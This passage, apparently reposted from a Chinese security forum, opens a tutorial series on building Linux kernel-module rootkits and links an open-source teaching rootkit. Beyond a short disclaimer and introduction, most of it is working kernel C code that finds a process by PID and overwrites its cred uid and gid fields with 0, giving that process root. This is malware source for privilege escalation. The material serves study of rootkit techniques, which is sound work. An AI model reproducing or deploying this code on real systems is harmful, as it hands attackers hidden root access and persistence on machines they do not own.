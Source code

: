 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.kanxue.com](https://bbs.kanxue.com/thread-285916.htm)

> [原创] 通用 Linux kernel rootkit 开发导论（一）

0x00. 一切开始之前
============

「Rootkit」即「root kit」，中文直译为「根工具包」，通常指代一类具有较高权限的恶意软件，其通常以内核模块的形式存在，在网络攻防当中被用作权限维持的目的

本系列文章将对 Linux 下基于 LKM 的 rootkit 实现技术进行汇总，主要基于 x86 架构，**仅供实验与学习，请勿用作违法犯罪：(**

同时笔者将本文所涉及的技术实现整合为一个教学用 Rootkit 并开源于 [https://github.com/arttnba3/Nornir-Rootkit](elink@6f4K9s2c8@1M7s2y4Q4x3@1q4Q4x3V1k6Q4x3V1k6Y4K9i4c8Z5N6h3u0Q4x3X3g2U0L8$3#2Q4x3V1k6S2M7Y4c8@1L8X3u0S2x3#2)9J5c8V1&6G2M7X3&6A6M7W2)9J5k6q4u0G2L8%4c8C8K9i4b7`.) ，希望大家能多来点 star ：）

0x01. 进程提权
==========

一个进程的权限由其 PCB （即 `task_struct` 结构体）中指定的 `cred` 结构体决定，位于内核空间中的 rootkit 可以很方便地通过修改、替换`cred` 结构体等方式来帮助我们的恶意进程进行提权：）

### 方法 ①：直接修改进程的 cred

直接将 `cred` 的 `uid`、`gid` 等字段修改为 0 即可完成提权，下面是笔者给出的示例代码

```
static __always_inline struct task_struct* nornir_find_task_by_pid(pid_t pid)
{
    return pid_task(find_vpid(pid), PIDTYPE_PID);
}
 
static __maybe_unused void nornir_grant_root_by_cred_overwrite(pid_t pid)
{
    struct task_struct *task;
    struct cred *cred;
    
    task = nornir_find_task_by_pid(pid);
    if (!task) {
        logger_error(
            "Unable to find task_struct of pid %d, root grant failed.\n",
            pid
        );
        return ;
    }
 
    cred = (struct cred*) task->real_cred;
    cred->uid = cred->euid = cred->suid = cred->fsuid = KUIDT_INIT(0);
    cred->gid = cred->egid = cred->sgid = cred->fsgid = KGIDT_INIT(0);
 
    if (unlikely(task->cred != task->real_cred)) {
        logger_warn("Mismatched cred & real_cred detected for task %d.\n", pid);
        cred = (struct cred*) task->cred;
        cred->uid = cred->euid = cred->suid = cred->fsuid = KUIDT_INIT(0);
        cred->gid = cred->egid = cred->sgid = cred->fsgid = KGIDT_INIT(0);
    }
 
    logger_info("Root privilege has been granted to task %d.\n", pid);
}
```
